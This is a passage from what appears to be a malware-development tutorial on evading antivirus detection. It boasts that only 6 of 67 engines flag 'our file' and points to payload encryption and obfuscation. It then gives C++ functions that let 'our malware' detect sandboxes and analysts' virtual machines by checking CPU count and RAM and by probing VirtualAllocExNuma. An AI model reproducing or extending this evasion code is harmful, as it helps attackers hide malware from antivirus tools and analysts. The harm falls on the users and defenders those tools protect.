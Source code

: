 [https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection](https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection)    

**So, 6 of 67 AV engines detect our file as malicious.**

For better result, we can add payload [encryption](/tutorial/2021/09/04/simple-malware-av-evasion.html) with key or [obfuscate functions](/tutorial/2021/09/06/simple-malware-av-evasion-2.html), or combine both of this techniques.

And what's next? Malwares often use various methods to fingerprint the environment they're being executed in and perform different actions based on the situation.   

For example, we can detect virtualized environment. Sandboxes and analyst's virtual machines usually can’t 100% accurately emulate actual execution environment. Nowadays typical user machine has a processor with at least 2 cores and has a minimum 2GB RAM. So our malware can verify if the environment is a subject to these constraints:   

```cpp
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}
```

Also we'll invoke the `VirtualAllocExNuma()` API call. This is an alternative version of `VirtualAllocEx()` that is meant to be used by systems with more than one physical CPU:    

```cpp
typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = (pVirtualAllocExNuma)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), NULL, 1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

```